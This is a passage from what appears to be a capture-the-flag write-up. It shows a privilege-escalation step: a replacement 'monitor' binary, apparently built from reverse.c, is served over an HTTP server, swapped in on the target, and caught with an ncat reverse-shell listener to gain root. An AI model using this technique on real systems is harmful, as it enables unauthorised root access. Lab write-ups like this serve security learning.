 Now all that's left is to send this file to the machine:
```bash
sudo python3 -m http.server 80
```
Let's download the monitor

![image](images/20250729004734.png)

Now make it executable and delete the old monitor.

![image](images/20250729004953.png)

In parallel, listen to the port that was specified in `reverse.c`:
```bash
sudo ncat -lvnp 4443
```
After a while, we get `root`:
